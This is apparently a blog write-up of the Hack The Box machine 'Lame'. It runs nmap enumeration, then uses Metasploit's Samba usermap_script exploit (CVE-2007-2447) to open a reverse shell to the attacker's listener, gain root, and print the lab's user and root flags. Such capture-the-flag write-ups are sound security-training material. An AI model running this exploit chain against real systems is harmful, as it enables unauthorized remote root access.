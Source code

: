 ```yaml
---
layout: post
title: Lame - Hackthebox
date: 2019-10-03
Author: Dark0
tags: [sample, document]
comments: true
toc: true
pinned: true
---
```


### Lame is a beginner box. With basic enumeration and some research you will get user and the root pretty easily.

![Box](https://i.ibb.co/z7wqbNQ/Captura-de-tela-em-2019-10-03-17-30-29.png)


# ENUMERATION

### I'll start with a basic enumeration, to do that I used nmap with flags -T4 -A -v

```
┌─[root@parrot]─[~/Documentos/htb/boxes/lame]
└──╼ #nmap -T4 -A -v 10.10.10.3

```

### We find port 21, 22, 139 and 445 open

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Arris TG562G/CT cable modem (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.18 (ClarkConnect 4.3 Enterprise Edition) (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Linksys WRV54G WAP (92%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.076 days (since Thu Oct  3 15:52:27 2019)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=192 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h00m23s, deviation: 0s, median: 4h00m23s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-10-03T16:41:57-04:00
|_smb2-time: Protocol negotiation failed (SMB2)


```

### I've tried exploit port 21, vsftpd 2.3.4 is indeed vulnerable but I wasn't successful. So I realized that Samba 3.0.20 was vulnerable too. I did search about samba in metasploit finding many results

```
msf5 > search samba 3.0.20

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
   1   auxiliary/admin/http/wp_easycart_privilege_escalation  2015-02-25       normal     Yes    WordPress WP EasyCart Plugin Privilege Escalation
   11  exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   12  exploit/linux/samba/setinfopolicy_heap                 2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   13  exploit/linux/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   14  exploit/multi/samba/nttrans                            2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   15  exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
   16  exploit/osx/samba/lsa_transnames_heap                  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow

   
```
# EXPLOITATION

### Then I've used the exploit/multi/samba/usermap_script module because this version of samba is vulnerable. (CVE-2007–2447)

```
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.10:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo r43tyRSiXyHwgK4g;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "r43tyRSiXyHwgK4g\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:48359) at 2019-10-03 18:45:37 -0300

python -c 'import pty;pty.spawn("/bin/bash")' 
root@lame:/# whoami
whoami
root
root@lame:/# cat /home/makis/user.txt
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
root@lame:/# cat ~/root.txt
cat ~/root.txt
92caac3be140ef409e45721348a4e9df
root@lame:/# 

```
### I used python -c ‘import pty;pty.spawn(“/bin/bash”)’ to spawn a tty shell and done
### box owned!! this box is very easy, but for a beginner it's definitely a great box.

### Stay in peace, guys!



